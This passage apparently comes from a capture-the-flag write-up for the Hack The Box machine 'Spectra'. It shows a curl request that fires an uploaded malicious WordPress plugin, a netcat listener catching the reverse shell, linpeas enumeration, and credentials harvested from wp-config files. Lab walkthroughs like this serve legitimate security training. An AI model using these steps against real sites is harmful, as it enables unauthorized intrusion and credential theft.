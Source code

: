 - As soon as the install request is processed, is important to issue the request to the file location under the WordPress folder structure. The command line below uses `curl` to make the request, but you could use your browser as well.

```bash
curl -L http://spectra.htb/main/wp-content/plugins/evilplugin/exploit.php
```

After this process, we should receive a connection from the victim machine, we below: :smiley:

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.229] 43298
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 08:41:48 up 4 min,  0 users,  load average: 0.26, 0.31, 0.17
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $ id
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
nginx@spectra / $
```

:bulb: **Tip:** There are several ways to achieve the same outcome not using the Metasploit framework. You could inject code into a Theme file or even use other scripts/tools available like [n00py/WPForce: WordPress Attack Suite (github.com)](https://github.com/n00py/WPForce), which automates this and other tasks frequently used while compromising WordPress sites.
{: .notice--info}

## User flag

After the initial access, initiated the machine enum using `linpeas.sh`, where the following details were identified:

- User: **nginx**, without any special privileges (`uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)`)

- Operating System: **Chromium OS 11**.0_pre399094_p20200824-r6

- Content published using Nginx from `/usr/local/share/nginx/html` directory, vide file path of `wp-config.php` files, where the creds below were also harvested:

  | site    | Username | Password      |
  | ------- | -------- | ------------- |
  | main    | dev      | development01 |
  | testing | devtest  | devteam01     |

- Users with console access, being a possible elevation path, as well as their privileges:

```plaintext
[+] Users with console
chronos:x:1000:1000:system_user:/home/chronos/user:/bin/bash
katie:x:20156:20157::/home/katie:/bin/bash
root:x:0:0:root:/root:/bin/bash

uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
uid=1001(chronos-access) gid=1001(chronos-access) groups=1001(chronos-access)
```
